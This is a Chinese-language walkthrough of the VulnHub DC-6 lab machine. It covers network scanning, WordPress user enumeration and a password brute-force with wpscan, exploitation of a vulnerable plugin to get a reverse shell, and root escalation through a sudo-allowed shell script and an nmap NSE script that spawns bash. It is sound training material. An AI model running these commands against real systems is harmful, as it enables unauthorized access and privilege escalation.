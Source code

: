 > 
>
>  先去看看[DC-6的官网描述](https://www.vulnhub.com/entry/dc-6,315/)，看看有没有给出提示信息
>
> 

<img src="./imgs/image-20230807185122021-1691462955175-1.png" alt="image-20230807185122021" style="zoom:33%;" />

<img src="./imgs/image-20230807185220691-1691463024588-4.png" alt="image-20230807185220691" style="zoom:33%;" />

<img src="./imgs/image-20230807185304458-1691463034835-7.png" alt="image-20230807185304458" style="zoom:33%;" />

把这个线索信息先复制下来

```shell
cat /usr/share/wordlists/rockyou.txt | grep k01 > passwords.txt
```

开始前先要吧 kali和DC-6靶机放在统一网段，都换成`NAT`模式

然后看一下DC-6的MAC地址

<img src="./imgs/image-20230807185603637-1691463162895-10.png" alt="image-20230807185603637" style="zoom:33%;" />

```shell

靶机的MAC地址00:0C:29:FA:57:22
```

### 信息收集

**主机扫描**

```shell
netdiscover -r 192.168.80.0/24
```

<img src="./imgs/image-20230807204152324-1691463713375-13.png" alt="image-20230807204152324" style="zoom:33%;" />

**端口扫描**

```shell
nmap -A -T4 -p- 192.168.80.140
```

<img src="./imgs/image-20230807204400100-1691463813814-16.png" alt="image-20230807204400100" style="zoom:33%;" />

发现靶机开起来`80`端口和`22`端口

根据DC-6靶场的文档描述，需要修改hosts文件

```shell
vim /etc/hosts   #靶机的地址和域名映射
```



<img src="./imgs/image-20230807190408473-1691463855591-19.png" alt="image-20230807190408473" style="zoom:33%;" />

通过kali自带的浏览器访问靶机的`80`的端口



![image-20230807190518659](./imgs/image-20230807190518659.png)

发现是`WordPress`的站点，这跟`DC-2`的是一样的站点，那就可以跟`DC-2`一样用`wpscan`来扫描这个站点的漏洞

先爆破一下目录看看

```shell
dirsearch -u 192.168.80.140 -i 200
```

![image-20230807211541514](https://gitee.com/zh_sng/cartographic-bed/raw/master/img/image-20230807211541514.png)

使用御剑爆破一下

![image-20230807210928594](https://gitee.com/zh_sng/cartographic-bed/raw/master/img/image-20230807210928594.png)

进入登录页面，现在还不知道密码和账户，

![image-20230807211339375](https://gitee.com/zh_sng/cartographic-bed/raw/master/img/image-20230807211339375.png)

### 漏洞利用

使用`wpscan`进行枚举爆破用户名

```shell
wpscan --url http://wordy/ -e u   # 枚举 WordPress 站点中注册过的用户名，来制作用户名字典。
```

![image-20230807211708308](https://gitee.com/zh_sng/cartographic-bed/raw/master/img/image-20230807211708308.png)

把账户写进`/tmp/user.txt`文件里

现在有了账户，还没密码，需要用靶场文档描述里说的线索提示

```shell
cat /usr/share/wordlists/rockyou.txt | grep k01 > passwords.txt
```

![image-20230807211905462](https://gitee.com/zh_sng/cartographic-bed/raw/master/img/image-20230807211905462.png)

报错说没有目录，可以使用`cd`命令，过去看一看

![image-20230807212014292](https://gitee.com/zh_sng/cartographic-bed/raw/master/img/image-20230807212014292.png)

```shell
gunzip rockyou.txt.gz
```



![image-20230807212132262](https://gitee.com/zh_sng/cartographic-bed/raw/master/img/image-20230807212132262.png)



![image-20230807212336871](https://gitee.com/zh_sng/cartographic-bed/raw/master/img/image-20230807212336871.png)

---

![image-20230807212734164](https://gitee.com/zh_sng/cartographic-bed/raw/master/img/image-20230807212734164.png)

现在有了用户字典，有了密码字典，继续使用`wpscan`密码爆破

==注意==：是在`/tmp`目录下进行爆破

```shell
wpscan --url http://wordy/ -U user.txt -P passwords.txt # 调用相关的字典文件对网站进行爆破。
```

![image-20230808104100218](https://gitee.com/zh_sng/cartographic-bed/raw/master/img/image-20230808104100218.png)



![image-20230808104037655](https://gitee.com/zh_sng/cartographic-bed/raw/master/img/image-20230808104037655.png)

爆破完用`mark` `helpdesk01`做登录

![image-20230807214339649](https://gitee.com/zh_sng/cartographic-bed/raw/master/img/image-20230807214339649.png)

搜索`Activity monitor`这个插件有没有漏洞

![image-20230807215324697](https://gitee.com/zh_sng/cartographic-bed/raw/master/img/image-20230807215324697.png)

找一下漏洞的绝对路径

![image-20230807215416791](https://gitee.com/zh_sng/cartographic-bed/raw/master/img/image-20230807215416791.png)

用python执行这个脚本

![image-20230807220925693](https://gitee.com/zh_sng/cartographic-bed/raw/master/img/image-20230807220925693.png)

### 提权

新建一个终端，监听`8989`

![image-20230807221024541](https://gitee.com/zh_sng/cartographic-bed/raw/master/img/image-20230807221024541.png)

然后在刚才的终端里输入反弹shell

![image-20230807221149955](https://gitee.com/zh_sng/cartographic-bed/raw/master/img/image-20230807221149955.png)

已经监听到了

![image-20230807221204336](https://gitee.com/zh_sng/cartographic-bed/raw/master/img/image-20230807221204336.png)

使用python交互shell

```python
python  -c "import pty;pty.spawn('/bin/bash')"
```

![image-20230807221418750](https://gitee.com/zh_sng/cartographic-bed/raw/master/img/image-20230807221418750.png)

在mark的家目录里发现有用的信息

![image-20230807221648562](https://gitee.com/zh_sng/cartographic-bed/raw/master/img/image-20230807221648562.png)

查看`su graham`切换用户，发现可以使用`su`这个命令

![image-20230807221823126](https://gitee.com/zh_sng/cartographic-bed/raw/master/img/image-20230807221823126.png)

使用`sudo -l`查看能使用哪些`root`权限的命令

![image-20230807221908392](https://gitee.com/zh_sng/cartographic-bed/raw/master/img/image-20230807221908392.png)

切换到`jens`的家目录看一下

![image-20230807221954668](https://gitee.com/zh_sng/cartographic-bed/raw/master/img/image-20230807221954668.png)

可以往里面追加`/bin/bash`

![image-20230807222049870](https://gitee.com/zh_sng/cartographic-bed/raw/master/img/image-20230807222049870.png)

使用`sudo -u jens ./backups.sh`

- -u 指定用户

切换到了`jens`用户

![image-20230807222251746](https://gitee.com/zh_sng/cartographic-bed/raw/master/img/image-20230807222251746.png)

继续使用`sudo -l` 查看

![image-20230807222325061](https://gitee.com/zh_sng/cartographic-bed/raw/master/img/image-20230807222325061.png)

**利用 nmap 提权**

```shell
echo "os.execute('/bin/bash')" > shell.nse
```

![image-20230807223133277](https://gitee.com/zh_sng/cartographic-bed/raw/master/img/image-20230807223133277.png)

```shell
sudo -u root nmap --script=shell.nse
#以root用户执行namp脚本
```

![image-20230807223257282](https://gitee.com/zh_sng/cartographic-bed/raw/master/img/image-20230807223257282.png)

进入`/root`下查看有无文件

![image-20230807223457255](https://gitee.com/zh_sng/cartographic-bed/raw/master/img/image-20230807223457255.png)

---

